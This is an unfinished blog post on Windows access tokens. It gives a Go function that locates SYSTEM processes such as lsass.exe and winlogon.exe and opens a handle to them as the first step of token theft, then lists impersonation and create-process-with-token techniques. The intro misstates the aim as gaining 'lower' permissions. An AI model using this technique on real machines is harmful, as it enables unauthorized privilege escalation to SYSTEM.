 +++
title = "WindowsTokens"
date = "2025-03-20T14:17:56-07:00"
author = "Ceald"
authorTwitter = "" #do not include @
cover = ""
tags = ["", ""]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
+++

## Intro

In windows things like access permissions are handled with tokens. Think of them as API tokens, they have certain permissions that you can do like impersonate other users or enable debugging on windows. The things that will be looked at in this post is how you can use windows tokens to get lower permissions than the Administrator user.

## Stealing Tokens Via Windows Processes

Getting right to the point. In windows processes also have access tokens and certain processes like winlogon you can duplicate the token and use it to run commands as another user. This is done by first opening the process to get the token like so:
```go

func findSystemProcess() (*windows.Handle, error) {
	h, err := windows.CreateToolhelp32Snapshot(windows.TH32CS_SNAPPROCESS, 0) // take snapshots of processes.
	if err != nil {
		return nil, fmt.Errorf("CreateToolhelp32Snapshot failed: %v", err)
	}
	defer windows.CloseHandle(h) // close it when the function closes
	var pe windows.ProcessEntry32 // create the process entry struct.
	pe.Size = uint32(unsafe.Sizeof(pe))
	if err = windows.Process32First(h, &pe); err != nil {
		return nil, fmt.Errorf("Process32First failed: %v", err)
	}
	systemProcesses := []string{"lsass.exe", "winlogon.exe", "services.exe"} // system processes with low level token access.
	for {
		name := windows.UTF16ToString(pe.ExeFile[:])
		for _, procName := range systemProcesses {
			if name == procName {
				handle, err := windows.OpenProcess(windows.PROCESS_QUERY_INFORMATION, false, pe.ProcessID) // open the process and get the handle
				if err != nil {
					return nil, fmt.Errorf("OpenProcess failed for %s: %v", procName, err)
				}
				return &handle, nil // return no error, break out of the loop and return the handle
			}
		}
		err = windows.Process32Next(h, &pe) // next process
		if err != nil {
			if err == syscall.ERROR_NO_MORE_FILES {
				break
			}
			return nil, fmt.Errorf("Process32Next failed: %v", err)
		}
	}
	return nil, fmt.Errorf("No suitable system process found")
}
```
In the "systemProcesses" array there are windows process that are ran by the system user which is a user that has even more access than the Administrator user. The only user that has even more privileges than the system user is the "TrustedInstaller" user which can delete everything in windows.


## Token Attacks

There's 5 different ways to attack windows access tokens.

1. Token Impersonation:
    * Token Duplication using "DuplicateTokenEx" (used in go-go-gadget-katz)
    * Tokens obtained by this method are used with ImpersonateLoggedOnUser to impersonate users
2. Create Process With token
    * Creating a new process using an existing token

to be continued....